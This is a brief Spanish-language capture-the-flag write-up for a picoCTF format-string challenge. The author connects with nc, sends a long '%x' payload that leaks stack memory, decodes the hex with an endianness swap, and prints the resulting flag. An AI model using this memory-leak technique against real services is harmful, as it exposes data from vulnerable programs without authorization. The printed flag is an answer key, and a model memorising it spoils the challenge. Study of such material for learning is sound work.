


# Nombre

## Objetivo

Story telling class 1/2

Additional details will be available after launching your challenge instance.

## Solución

```bash
hone@unidad03:~$ nc saturn.picoctf.net 60830
Tell me a story and then I'll tell you one >>
```

```bash
Tell me a story and then I'll tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Here's a story - 
ff8f4960ff8f49808049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f355f6b63643631657d313235fbad2000a170a1000f7f18990804c00080494100804c000ff8f4a4880494182ff8f4af4ff8f4b000ff8f4a6000f7d0eed5
```

Se toma la historia resultante, se separa en grupo de dos numeros, y se decodifica del Hexadecimal.



La bandera se encuentra desordenada, asi decodifica tambien del Swap endianness para obtener la bandera.



Bandera: *picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}*

## Referencias

[Reference](Link)
